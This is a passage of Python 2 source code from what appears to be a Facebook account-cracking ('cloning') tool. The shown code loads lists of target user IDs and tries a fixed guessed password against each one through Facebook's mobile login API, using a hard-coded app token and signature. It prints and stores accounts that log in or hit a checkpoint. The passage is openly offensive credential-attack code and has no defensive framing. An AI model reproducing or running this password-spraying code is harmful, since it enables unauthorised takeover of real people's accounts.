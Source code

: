         elif peak == '3':
            os.system('clear')
            print logo
            brute()
        elif peak == '4':
            os.system('clear')
            print logo
            try:
                idlist = raw_input('\x1b[1;96m[+] \x1b[1;93mEnter the file name \x1b[1;91m: \x1b[1;97m')
                for line in open(idlist, 'r').readlines():
                    id.append(line.strip())

            except IOError:
                print '\x1b[1;35;40m[!] \x1b[1;35;40mFile not found'
                raw_input('\n\x1b[1;35;40m[ \x1b[1;35;40mExit \x1b[1;35;40m]')
                super()

        elif peak == '0':
            menu()
        else:
            print '\x1b[1;91mFill in correctly'
            pilih_super()
        print '\x1b[1;36;96m[\xe2\x9a\x92\xef\xb8\x8f] Total IDs : \x1b[1;92m' + str(len(id))
        jalan('\x1b[1;34;96m[\xe2\x9a\x92\xef\xb8\x8f] Please Wait \xe2\x96\xb6\xef\xb8\x8f')
        titik = ['.   ', '..  ', '... ']
        for o in titik:
            print '\r\x1b[1;32;40m[\xf0\x9f\x90\xaf] Cloning\x1b[1;93m' + o,
            sys.stdout.flush()
            time.sleep(1)

    print '\n\x1b[1;94m        \xf0\x9f\x94\xb2     \x1b[1;91mSOMI To Stop Process Press CTRL+Z \x1b[1;94m    \xf0\x9f\x94\xb2'
    print '   \x1b[1;31;92m\xe2\x98\x85\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x98\x85'
    jalan('         \x1b[1;92mCP ACCOUNT OPEN AFTER 7 DAYS')
    print '  \x1b[1;36;92m \xe2\x98\x85\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x98\x85'

    def main(arg):
        user = arg
        try:
            os.mkdir('out')
        except OSError:
            pass

        try:
            a = requests.get('https://graph.facebook.com/' + user + '/?access_token=' + toket)
            b = json.loads(a.text)
            pass1 = 'Pakistan'
            data = urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + user + '&locale=en_US&password=' + pass1 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
            q = json.load(data)
            if 'access_token' in q:
                print '\x1b[32;1m[OK\xe2\x9c\x93] \x1b[0;1mID \x1b[1;91m      : \x1b[0;1m' + user
                print '\x1b[32;1m[!] \x1b[0;1mPassword \x1b[1;91m: \x1b[0;1m' + pass1 + '\n'
                oks.append(user + pass1)
            elif 'www.facebook.com' in q['error_msg']:
                print '\x1b[33;1m[Cp\xf0\x9f\x90\xaf+] \x1b[0;1mID \x1b[1;91m      : \x1b[0;1m' + user
                print '\x1b[33;1m[\xe2\x88\x9a] \x1b[0;1mPassword \x1b[1;91m: \x1b[0;1m' + pass1 + '\n'